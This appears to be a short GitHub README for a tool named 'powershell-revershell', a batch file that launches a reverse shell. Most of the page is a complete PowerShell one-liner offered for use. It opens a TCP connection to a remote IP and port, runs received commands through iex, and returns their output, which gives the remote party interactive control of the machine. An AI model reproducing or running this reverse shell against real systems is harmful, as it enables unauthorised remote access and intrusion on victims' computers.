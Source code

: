 # powershell-revershell

A bat file to execute a reverse shell using powershell without a ps1 file.

### Usage

revershell.bat \[RemoteIP] \[RemotePort]

Or

powershell "$shell = New-Object System.Net.Sockets.TCPClient('192.168.1.15',4444);$stream = $shell.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'C7 PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$shell.Close()"
